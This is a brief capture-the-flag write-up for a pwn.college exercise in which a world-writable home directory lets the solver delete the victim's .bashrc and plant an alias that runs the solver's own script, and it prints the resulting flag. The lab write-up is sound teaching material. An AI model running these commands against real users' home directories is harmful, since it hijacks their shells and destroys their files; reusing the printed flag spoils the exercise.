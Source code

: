 ### Overshared Directories 

In this challenge, for convenience, Zardus opened up his home directory:

```console
zardus@dojo:~$ chmod a+w /home/zardus
```

As you know, there are lots of sensitive files in that directory _such as `.bashrc`_! Can you replicate the previous attack with write access to `/home/zardus` instead of `/home/zardus/.bashrc`?

**flag:** `pwn.college{wBNZwRocFD3RXPvgE9EwmuvfFaV.0FM0EzNxwyNwkzNyEzW}`

What did I do? :
- `rm /home/zardus/.bashrc`
- `echo "alias flag_checker='bash /home/hacker/flag_checker'" > /home/zardus/.bashrc`
- `/challenge/victim`

First of all I removed the existing zardus bashrc, then added an alias which runs the flag_checker to the bashrc. Running /challenge/victim gave me the flag.


